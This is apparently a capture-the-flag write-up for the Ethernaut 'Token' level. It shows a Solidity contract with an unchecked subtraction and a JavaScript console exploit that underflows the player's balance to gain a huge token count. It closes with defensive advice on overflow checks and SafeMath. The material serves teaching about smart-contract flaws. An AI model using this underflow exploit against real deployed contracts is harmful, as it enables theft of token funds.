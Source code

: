 # 05. Token
<sup>Difficulty 3/10</sup>

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

## Solution

We notice two things:

```solidity
// 1. Solidity version is up to 0.6
pragma solidity ^0.6.0;

//[...]

// 2. Transfer function perform our math 
function transfer(address _to, uint _value) public returns (bool) {
  require(balances[msg.sender] - _value >= 0);
  balances[msg.sender] -= _value;
  balances[_to] += _value;
  return true;
}
```

What's the link between them? **Overflows**

Until Solidity compiler 0.8.* math operations are subject to over and underflows, that's why the SafeMath module is used.

Note `MAX_INT == 2 ** 256 - 1`. `0 - 1 == MAX_INT`, so `MAX_INT + 1 == 0`, hence the solution is pretty straightforward:

```javascript
await contract.balanceOf(player)
// -> 0: 20
const fakeUser = '0x5B38Da6a701c568545dCfcB03FcB875f56beddC4'  // got from remix account
await contract.transfer(fakeUser, 21)
await contract.balanceOf(player)
// -> 0: 67108863
// 1: 67108863
// 2: 67108863
// 3: 67108863
// 4: 67108863
// 5: 67108863
// 6: 67108863
// 7: 67108863
// 8: 67108863
// 9: 4194303
```

This works because `balances[msg.sender] -= _value;` will set the MAX_INT value to the `msg.sender` that would be us. To keep our tokens the `_to` address has to be another account because `MAX_INT + 1 == 0` and we will loose all the accumulated tokens. Also, we set `_value` to 21 because we have 20 starting tokens.

## OZ Corner

Overflows are very common in solidity and must be checked for with control statements such as:

```solidity
if(a + c > a) {
  a = a + c;
}
```

An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

```solidity
a = a.add(c);
```

If there is an overflow, the code will revert.